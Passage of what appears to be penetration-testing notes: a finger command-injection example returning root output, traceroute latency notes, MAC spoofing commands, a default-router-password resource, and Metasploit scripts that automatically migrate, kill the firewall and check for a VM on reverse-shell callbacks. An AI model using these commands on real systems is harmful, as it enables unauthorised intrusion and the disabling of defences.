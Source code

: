 ```sh
# finger "|/bin/id@192.168.0.135"

[192.168.0.135]

uid=0(root) gid=0(root)
```

## Enumerating with Traceroute

Latency jumps in Traceroute values can identify geographic data:

```sh
1 ms – within your LAN
25 ms – my home cable service in London to servers located in mainland UK
90 ms – typical home DSL in the US to google.com
100-150 ms – the transatlantic cable between the UK and New York state
600-2000 ms – typical VSAT remote to hub link
```

```source: https://www.tolaris.com/2008/10/09/identifying-undersea-fibre-and-satellite-links-with-traceroute/```

## Changing MAC Addresses

Look up vendor MAC you want to impersonate: <https://mac2vendor.com/>

Change MAC:

```sh
sudo ifconfig <interface-name> down
sudo ifconfig <interface-name> hw ether <new-mac-address> 
sudo ifconfig <interface-name> up
```

# Routers

Resources:

```
 https://www.routerpasswords.com
```

# Metasploit Callback Automation

Use AutoRunScript to run commands on a reverse shell callback

```
set AutoRunScript multi_console_command -rc /root/commands.rc
```

`/root/commands.rc` contains the commands you wish to run

Example:

```sh
run post/windows/manage/migrate
run post/windows/manage/killfw
run post/windows/gather/checkvm
```

